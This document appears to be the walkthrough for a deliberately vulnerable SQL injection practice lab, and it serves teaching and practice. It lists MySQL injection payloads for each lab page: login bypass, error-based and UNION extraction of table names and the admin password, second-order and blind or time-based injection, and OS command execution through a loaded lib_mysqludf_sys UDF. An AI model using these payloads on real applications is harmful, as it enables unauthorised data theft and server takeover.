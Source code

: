 # Walkthrough document

This document explains the different attacks that can be done on this setup. Use `?debug=true` to see the actual query being executed.

## Registration

Use the `register.php` to create users

## Login bypass attack

Bypassing login using boolean expressions

**Page:** `login1.php`

**Attack:** 
   
- `non-existent-user' OR 1=1 -- //`
- `bob' -- //` 

**Page:** `login2.php`

**Attack:** 

- `voldemort') -- //`

## Verbose SQL Error based Injection

Forcing error conditions to reveal and extract data

**Page:** `login1.php` 

**Attack:**

- `' or 1 in (select @@version) -- //`
- `' or 1=CAST((select group_concat(table_name) from information_schema.columns) AS SIGNED) -- //`
- `' or 1 in (select password from users where username = 'admin') -- //`


## Extracting data using UNION queries

Using a pre existing SQL select query to fetch additional data from the DB

**Page:** `searchproducts.php` 

**Attack:**

- `' order by 5 -- //`
- `' union select 1,2,3,4,5 -- //`
- `' union select null, null, database(), user(), @@version -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`
- `' union select null, id, username, password, fname from users -- //`

## Second order SQL injection

User input is stored and reused as is in a different function that has no protection

**Page:** `secondorder_register.php`

**Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1 in (select password from users where username='admin') -- //
- ' or 1 in (select convert(password,unsigned) from users where username='admin') -- //
- navigate to secondorder_changepass.php
```

## Blind SQL injection

**Page:** `blindsqli.php`

**Attack:**

- `?user=1' and 1=1 -- //`
- `?user=admin' and substring((select table_name from information_schema.columns where column_name = 'password' LIMIT 1),1,1)>'a' -- //` 
- `?user=1' union select 1,2,3,4, if (substring(username,1,1) > 'd', benchmark(100000000, encode('txt','secret')),null) from users where id=1 -- //` 

## OS interaction

**Page:** `os_sqli.php`

**Attack:** 

- Given that we have mounted the `./udf` folder to `/usr/lib/mysql/plugin`, the `lib_mysqludf_sys.so` inside the `./udf` is available to the MySQL instance
- UDF obtained from `https://github.com/sqlmapproject/udfhack/blob/35abeedc6c590d2fc666a64b57aad9cf7944ec7a/linux/lib_mysqludf_sys/lib_mysqludf_sys.so`
- Use the ability to perform stacked queries in `os_sqli.php` to create a UDF function from the `lib_mysqludf_sys.so` library.
- `os_sqli.php?user=qqqq'; create function sys_eval returns string soname 'lib_mysqludf_sys.so';`
- `os_sqli.php?user=qqqq' union select 1,sys_eval('id'),3,4,5 -- //`
- To drop the function and redo the exercise run `os_sqli.php?user=qqqq';drop function sys_eval;`
- As the MySQL instance is running in a separate container than the web application, the `INTO OUTFILE` way of writing a php shell to disk will not work as the shell will be written inside the MySQL container can cannot be accessed from the web application.

## References

- SQL Injection Cheat Sheet - http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- Various ways of loading a UDF into MySQL - https://osandamalith.com/2018/02/11/mysql-udf-exploitation/

